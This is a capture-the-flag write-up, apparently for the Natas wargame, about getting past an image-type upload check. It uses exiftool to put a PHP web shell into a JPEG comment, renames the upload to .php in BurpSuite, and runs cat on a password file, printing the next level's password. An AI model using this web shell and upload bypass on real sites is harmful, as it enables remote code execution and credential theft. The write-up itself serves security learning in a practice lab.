





> Viewing the source code for uploading files, we see that it validates the file type by checking the `exif_imagetype` of the file.
> Basically, it checks the metadata of the file, and if the signature it gets doesn't match that of an image, it is rejected.



> To bypass this, we can use the `exiftool` on an image to embed the `php` code inside the image as a comment.

``` bash
exiftool -comment='<?php echo system($_GET['command']);?>' pic.jpeg
```
> Get the value of the query parameter `command` and execute it as shell command.

> Now we if we upload this file, we see that it is uploaded as a `.jpeg` file which won't execute.



> Therefore, we should capture the request being sent through BurpSuite proxy, and modify the uploaded file to be of a `.php` format.



> Now if we forward, we see that the file was uploaded as `.php`.



> Now if we access this file, and give the query parameter `command` with the command:

```
cat /etc/natas_webpass/natas14
```



```
natas14:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```

---
